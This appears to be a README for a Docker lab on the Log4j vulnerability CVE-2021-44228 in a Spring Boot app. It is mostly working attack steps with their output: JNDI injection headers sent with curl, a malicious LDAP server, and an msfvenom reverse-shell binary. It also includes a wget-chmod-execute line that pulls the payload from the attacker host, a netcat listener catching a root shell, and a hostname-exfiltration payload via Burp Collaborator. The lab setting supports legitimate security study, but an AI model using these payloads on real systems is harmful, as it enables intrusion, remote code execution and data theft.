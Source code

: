 # Log4j Vulnerability
According to https://www.lunasec.io/docs/blog/log4j-zero-day/, most of the log4j v2 versions are affected.

Log4j V2 affected versions:

__2.0-beta9 <= Apache log4j <= 2.14.1__

## Tools needed

In order to exploit the vulnerability, specific version of springboot and java 8 is needed.

* JDK 1.8.0_181.
* Springboot 2.6.1 (is uses spring-boot-starter-log4j2 2.6.1)

or
* docker

In order to check if springboot project contains one of the log4j affected versions, run the following command:

```shell
./gradlew dependencies 
```

For this project, the output of the previous command:

![](assets/dependency-tree.png)

## Run the app
1) With the specified java version, just run the application

or

2) Using docker, by running the script:
```shell
./start-app.sh
```

## Using JNDI-Injection-Exploit to Exploit.

Target: 172.17.0.2

Attacker: 172.17.0.1

```shell
$ cd tools/
$ unzip JNDIExploit.v1.2.zip
$ cd JNDIExploit.v1.2/
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -h
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Usage: java -jar JNDIExploit-1.2-SNAPSHOT.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

* Encode our command line using base64. In this case, from target machine will be send ping commands to attacker machine
```shell
$ echo 'ping -c 5 172.17.0.1' | base64 -w 0
```

Note: For macOs:
```shell
$ echo 'ping -c 5 172.17.0.1' | base64
```

* use JNDIExploit to spin up a malicious LDAP server
```shell
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
```

* then, run this command below to trigger our ping command from target machine
```shell
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK}'
```

* let's see the output from JNDIExploit
```shell
...
[+] Received LDAP Query: Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK
[+] Paylaod: command
[+] Command: ping -c 5 172.17.0.1

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK redirecting to http://172.17.0.1:8888/ExploitX07BVXemV5.class
[+] New HTTP Request From /172.17.0.2:58630  /ExploitX07BVXemV5.class
[+] Receive ClassRequest: ExploitX07BVXemV5.class
[+] Response Code: 200
```

* now, we can capture using tcpdump the ping commands from target machine
```shell
$ sudo tcpdump -i docker0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
22:32:07.210584 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 0, length 64
22:32:07.210594 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 0, length 64
22:32:08.210938 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 1, length 64
22:32:08.210965 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 1, length 64
22:32:09.211367 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 2, length 64
22:32:09.211391 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 2, length 64
22:32:10.211569 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 3, length 64
22:32:10.211592 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 3, length 64
22:32:11.211814 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 4, length 64
22:32:11.211848 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 4, length 64
```

### Remote Code Execution - CTF Style "How to get a reverse shell"
```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: /tmp/rev.elf
```

* prepare local server using python on our attacking machine
```shell
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

* encode this command line below using base64
```shell
wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```

* copy base64 output
```shell
$ echo 'wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf' | base64
d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
```

* use JNDIExploit to spin up a malicious LDAP server
```shell
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
...
```

* then, run the command below to trigger our command
```shell
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK}'
Hello, world!
```

* start netcat reverse shell on attacker machine nc -lvnp 4444, then netcat will be trigger a reverse shell
````shell
$ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:42176.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
whoami
root
````

* the output from JNDIExploit
```shell
...
[+] Received LDAP Query: Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
[+] Paylaod: command
[+] Command: wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK redirecting to http://172.17.0.1:8888/ExploitgV2vh72T6X.class
[+] New HTTP Request From /172.17.0.2:58650  /ExploitgV2vh72T6X.class
[+] Receive ClassRequest: ExploitgV2vh72T6X.class
[+] Response Code: 200
```

## get hostname using burp suite collaborator

* payload
```shell
${jndi:ldap://${hostName}.our-link.burpcollaborator.net/}
```

**Output**
![](assets/dns-query.png)

https://github.com/twseptian/spring-boot-log4j-cve-2021-44228-docker-lab